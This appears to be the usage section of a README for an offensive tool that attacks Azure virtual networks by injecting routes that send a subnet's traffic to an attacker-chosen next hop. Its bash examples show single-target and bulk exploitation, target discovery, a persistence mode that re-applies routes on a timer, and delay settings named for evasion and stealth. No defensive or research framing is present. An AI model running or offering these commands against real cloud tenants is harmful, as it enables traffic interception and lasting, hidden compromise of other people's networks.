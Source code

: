### Basic Usage

#### Single Target Exploitation
```bash
# Create route on single target
python exploit.py \
    --subscription-id "12345678-1234-1234-1234-123456789012" \
    --resource-group "production-rg" \
    --vnet-name "prod-vnet" \
    --subnet-name "prod-subnet" \
    --address-prefix "10.0.1.0/24" \
    --next-hop-ip "10.0.2.5"

# Delete route
python exploit.py \
    --subscription-id "12345678-1234-1234-1234-123456789012" \
    --resource-group "production-rg" \
    --vnet-name "prod-vnet" \
    --subnet-name "prod-subnet" \
    --route-name "exploit-route-1" \
    --operation delete
```

#### Multi-Target Exploitation
```bash
# Create configuration file
python exploit_utils.py discover --output targets.json

# Exploit all targets
python exploit.py --targets-file targets.json --operation create
```

#### Scan Mode
```bash
# Scan targets without exploitation
python exploit.py --targets-file targets.json --scan-only
```

#### Persistence Mode
```bash
# Enable persistence with 30-minute intervals
python exploit.py --targets-file targets.json --persistence-mode --interval 30
```

### Advanced Usage

#### Evasion and Stealth
```bash
# Custom delay ranges for evasion
python exploit.py \
    --targets-file targets.json \
    --delay-min 1.0 \
    --delay-max 5.0 \
    --max-workers 5
```
